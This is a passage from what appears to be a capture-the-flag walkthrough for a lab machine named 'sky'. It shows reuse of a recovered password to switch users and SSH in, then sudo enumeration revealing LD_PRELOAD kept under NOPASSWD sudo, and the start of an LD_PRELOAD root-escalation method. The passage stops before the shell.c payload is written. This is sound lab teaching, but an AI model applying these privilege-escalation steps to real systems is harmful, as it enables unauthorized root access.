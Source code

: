 As you can see, we have user `webdeveloper`'s password: `BahamasChapp123!@#`. I used the password and switched to this user:

~~~
www-data@sky:/$ su webdeveloper
Password: BahamasChapp123!@#
webdeveloper@sky:/$ id
uid=1000(webdeveloper) gid=1000(webdeveloper) groups=1000(webdeveloper),24(cdrom),27(sudo),30(dip),46(plugdev)
~~~

Now that I know the password is valid, in order to get a stable shell, I connected to the machine via ssh:

~~~
└─$ ssh webdeveloper@$IP

[REDACTED]

webdeveloper@sky:~$
~~~

## Privilege Escalation

Now we need to gain root access. I ran `sudo -l` to check my sudo permissions:

~~~
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
~~~

As you can see we can run `/usr/bin/sky_backup_utility` as root with sudo and no password. The other thing is the existence of `LD_PRELOAD` which is an optional environmental variable containing one or more paths to shared libraries.

### Exploit

For exploiting this machine, we don't really need to know what `sky_backup_utility` does, since we have `LD_PRELOAD`. You can read this useful [blog](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/) on exploiting this variable to fully understand what we are doing.

Here's how to switch to root. First we need to head to `/tmp` and create a file which I named `shell.c` with the following content (`nano` is available on the machine):

~~~
webdeveloper@sky:~$ cd /tmp
webdeveloper@sky:/tmp$ touch shell.c
webdeveloper@sky:/tmp$ nano shell.c
~~~
